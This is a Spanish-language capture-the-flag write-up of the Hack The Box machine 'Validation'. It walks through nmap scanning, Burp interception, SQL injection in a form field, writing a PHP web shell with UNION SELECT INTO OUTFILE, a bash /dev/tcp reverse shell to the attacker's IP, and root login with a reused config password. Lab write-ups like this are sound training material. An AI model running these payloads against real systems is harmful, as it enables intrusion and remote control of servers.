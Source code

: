 ```yaml
---
title:  "Writeup de la máquina Validation de Hack The Box"
date: 2023-04-16
mathjax: true
layout: post
categories: writeup
tags: sql-injection burpsuite php web-shell
---
```


# Resolución de la máquina Validation de la plataforma de HackTheBox

![](https://i.ibb.co/SdzyZRf/validation.png)

### 💉 *"Máquina vulenrable a SQL Injection !!"*

**Como siempre, primero revisamos que tenemos conexión con la máquina víctima, desde nuestra máquina atacante. Una forma de hacerlo es a través del envío de paquetes ICMP con el comando "ping"**:

```bash
ping -c 1 10.10.11.116
```

**Ahora sabemos que tenemos conexión con la máquina ya que nos respondió con los paquetes que recibimos**

![](https://i.ibb.co/tMw3TDP/ping.png)

**Primeramente hacemos un escaneo Activo de la máquina en búsqueda de puertos abiertos con el siguiente comando:**

```bash
sudo nmap 10.10.11.116 -p- --min-rate 5000 -sS -Pn -oG openPorts -vvv 
```

Con el comando anterior exportamos el resultado en un formato en el cual podamos extraer los puertos abiertos con la ayuda de comandos como *"grep, awk y otros más"* para luego escanear en profundidad:

```bash
sudo nmap 10.10.11.116 -p22,80,4566,8080 -sV -sC -sS -Pn -oN scanComplete -vvv
```

#### Ahora con el escaneo completo obtenemos el siguiente resultado:

![](https://i.ibb.co/HX2nbYG/nmap.png)

**Como está abierto el puerto 80 corriendo el servicio http, entramos en el navegador web en la dirección IP de la máquina por ese puerto:**

*Pero antes de seguir con el pentesting de esta máquina, agregamos como host "validation.htb" con la IP de la máquina (10.10.11.116)*

![](https://i.ibb.co/ZMB5KXJ/etc-hosts.png)

**Vemos que tenemos un formulario simple, escrito en HTML con un input que nos permite elegir nuestro "Username", además de la región, que viene por defecto "Brazil". Si inspeccionamos el código fuente podemos ver que el <form> es decir, el formulario, envía los valores del "Username" y la "Región" al servidor web. Con esto podemos pensar que estos valores se alojan en una Base de Datos:**

![](https://i.ibb.co/nBv2wxC/form-html.png)

## Burp Suite

**Ahora configuramos la extensión de FoxyProxy en Firefox para redirigir la solicitud (o Request) a través de nuestro localhost por el puerto 8080 (127.0.0.1:8080). De este modo lo interceptamos con Burp Suite y desde ahí seguir:**

![](https://i.ibb.co/rdCRMvK/burp-suite.png)

**Ahora desde Burp Suite, comentamos el valor de el campo "country" y le inyectamos el código:**

```
or 1=1
```

![](https://i.ibb.co/h1gK15v/sqli-nourl.png)

Luego lo encodeamos con codificación URL:

![](https://i.ibb.co/crrD0TR/sqli-url.png)

**Ahora si regresamos a la parte web, vemos que se filtra el Error del Backend, lo cual nos hace pensar que es vulnerable a SQL Injection:**

![](https://i.ibb.co/xFDK3xZ/sqli-vulnerable.png)

## Una vez encontrada la vulnerabilidad, pasamos a crear un Backdoor

Como vemos en el sitio, la aplicación web utiliza PHP. Podemos intentar inyectarle una web-shell en PHP a través de un ataque de SQL Injection:

*El código que vamos a usar para agregar una web-shell con una SQL Injection será:*

```sql
' UNION SELECT '<?php system($_GET["cmd"]); ?>' INTO OUTFILE '/var/www/html/shell.php'-- -
```

*Con el código anterior le decimos al servidor que también seleccione esa fracción de código, (que es el Backdoor), y lo inserte en el archivo /var/www/html/shell.php. Es decir que shell.php será nuestra web-shell en PHP. También es bueno saber que normalmente los servidores web que se ejecutan en Linux (estos son la mayoría actualmente, aunque no todos), tienen como raíz de directorios web la ruta /var/www/html*

![](https://i.ibb.co/M8HJL2d/backdoor.png)

## Ahora probamos y ¡Funciona!

**Tenemos lista nuestra web-shell en la ruta /shell.php, ahora para ejecutar un comando en el servidor solamente hay que añadir la siguiente query (consulta):**

```
shell.php?cmd={comando}
```

![](https://i.ibb.co/3Nc8csP/web-shell.png)

Ahora vamos a [https://www.revshells.com/](https://www.revshells.com/) y generamos un payload para ejecutar una Shell Reversa con Netcat y poder conectarnos al servidor desde una consola interactiva. El mismo lo ejecutamos como comando en el Backdoor de "shell.php".

Luego de probar con varios tipos de shells, me funcionó agregarle:

```bash
bash -c '{payload de la shell}'
```

Lo cual quedaría así:

```bash
bash -c 'bash -i >& /dev/tcp/10.10.14.2/4545 0>&1'
```

Lo encodeamos como URL y ejecutamos el código en la web-shell, desde el navegador o desde Burp Suite.

**Vemos en el archivo "config.php" una contraseña.**

![](https://i.ibb.co/hZfGLGh/config-php.png)

**Como somos Pentesters, tenemos que probar todas las formas en que se podría acceder de forma privilegiada al sistema, así que intentamos usar esa contraseña para autenticarnos como usuario root:**

## ¡YES! Al parecer la contraseña de root es esa.

![](https://i.ibb.co/NsT0Z4n/flag-root.png)

### Y con esto terminamos la máquina y tenemos acceso total al sistema.

Happy Hacking!!

----

## Author: Mateo Fumis 

